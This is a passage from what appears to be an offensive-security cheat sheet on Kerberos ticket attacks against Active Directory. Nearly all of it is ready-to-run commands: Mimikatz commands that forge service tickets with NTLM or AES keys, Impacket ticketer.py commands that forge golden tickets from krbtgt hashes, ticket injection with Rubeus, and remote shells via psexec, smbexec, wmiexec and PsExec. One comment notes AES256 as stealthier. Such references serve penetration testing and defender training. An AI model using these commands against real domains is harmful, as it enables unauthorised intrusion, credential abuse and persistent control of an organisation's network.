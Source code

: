 ```powershell
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Windows (internal) <a href="#windows-internal-5" id="windows-internal-5"></a>

With [Mimikatz](https://github.com/gentilkiwi/mimikatz):

```powershell
# To generate the TGS with NTLM
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /rc4:<ntlm_hash> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 128 key
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes128:<krbtgt_aes128_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# To generate the TGS with AES 256 key (more secure encryption, probably more stealth due is the used by default by Microsoft)
mimikatz # kerberos::golden /domain:<domain_name>/sid:<domain_sid> /aes256:<krbtgt_aes256_key> /user:<user_name> /service:<service_name> /target:<service_machine_hostname>

# Inject TGS with Mimikatz
mimikatz # kerberos::ptt <ticket_kirbi_file>
```

Inject ticket with [Rubeus](https://github.com/GhostPack/Rubeus):

```powershell
.\Rubeus.exe ptt /ticket:<ticket_kirbi_file>
```

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```powershell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```

### Golden ticket <a href="#golden-ticket" id="golden-ticket"></a>

> Build a TGT with NTLM hash and krbtgt key, valid until krbtgt password is changed or TGT expires

Tickets must be used right after created

#### Linux (external) <a href="#linux-external-6" id="linux-external-6"></a>

With [Impacket](https://github.com/SecureAuthCorp/impacket) examples:

```powershell
# To generate the TGT with NTLM
python ticketer.py -nthash <krbtgt_ntlm_hash> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# To generate the TGT with AES key
python ticketer.py -aesKey <aes_key> -domain-sid <domain_sid> -domain <domain_name>  <user_name>

# Set the ticket for impacket use
export KRB5CCNAME=<TGS_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

